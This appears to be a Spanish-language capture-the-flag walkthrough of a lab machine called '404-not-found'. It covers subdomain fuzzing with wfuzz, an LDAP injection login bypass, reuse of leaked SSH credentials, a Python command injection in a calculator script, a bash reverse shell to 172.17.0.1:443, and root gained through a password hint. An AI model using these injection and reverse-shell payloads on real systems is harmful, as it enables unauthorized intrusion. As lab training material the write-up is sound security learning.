 nmap: 22,80

![image](https://github.com/user-attachments/assets/2b6eed0f-c4b9-4bcb-b84d-3fbfe9437982)


---
al hacer el nmap vemos que el puerto 80 tiene una pagina con "hl" al final

![image](https://github.com/user-attachments/assets/00fb62a3-401f-40ce-a6c6-046641820ccd)

lo que tenemos que agregar esa redirección en el  "/etc/hosts"
http://404-not-found.hl/

en la pagina principal ahora vemos eso y aceptamos el desafio:

![image](https://github.com/user-attachments/assets/ca2f05b7-9e39-4c8b-b1c6-ab6cef4f2fd4)


en la pagina hay cuadros con "pistas". hay una en código base64 

![image](https://github.com/user-attachments/assets/21c6bc7f-4b39-4991-b972-2e4f1fbf9b75)


que lo sacamos:
>echo "`UXVlIGhhY2VzPywgbWlyYSBlbiBsYSBVUkwu`" | base64 -d 

![image](https://github.com/user-attachments/assets/6ec0aa26-5305-4c98-8661-c514c470e5e8)


y nos da: Que haces?, mira en la URL. 

hacemos un:


    - wfuzz -c -u 404-not-found.hl -H "HOST: FUZZ.404-not-found.hl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 28

nos da: info

![image](https://github.com/user-attachments/assets/e26da39b-a5fd-47dd-8b60-3489ca23bc2a)


metemos ese info en /etc/host como el primer URL que tenemos.
http://info.404-not-found.hl/
quedaría: info.404-not-found.hl

![image](https://github.com/user-attachments/assets/326bd27a-8218-48a8-8afe-9fff9203851d)


nos manda a un login y vamos probando credenciales por default. 
vemos el código fuente y al final hay un mensaje:
> I believe this login works with LDAP
> 
![image](https://github.com/user-attachments/assets/d2ed5af5-49d9-4b99-b3b5-c9694372c261)


buscamos credenciales de inyección de LDAP
probamos las inyección que tiene: https://book.hacktricks.xyz/v/es/pentesting-web/ldap-injection

![[credenciales 1 1.png]]
y sirve: 

        user=*)(|(&
         pass=pwd)

en el panel de admin nos da las credenciales: 

       - Nombre de usuario: `404-page`
       - Contraseña: `not-found-page-secret`

![[credenciales 2.png]]

entramos por el ssh en el terminal y ahora buscamos como escalar hacia root.
![[conexion .png]]

como se ve hay un calculadora.py se refiere a python y solo podemos ejecutar.

![[ejecutable 1.png]]

encontramos un comando para ejecutar con python del programa que encontramos:
https://snyk.io/blog/command-injection-python-prevention-examples/

![[codigo python 1.png]]

comando de ejecución:

     __import__('os').popen('ls').read()

![[prueba 1 1.png]]

lo modificamos para una reverse shell para verificar: 

         __import__('os').popen("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'").read()

olocamos el puerto en escucha y estamos dentro del usuario 200-ok

![[conexion nc.png]]

 buscamos como escalar y aparece un txt que se llama: 
>boss.txt que contiene: what is rooteable

![[boss.png]]

probamos rooteable como contraseña de root:

![[root.png]]

su root / rooteable y somos root!: 
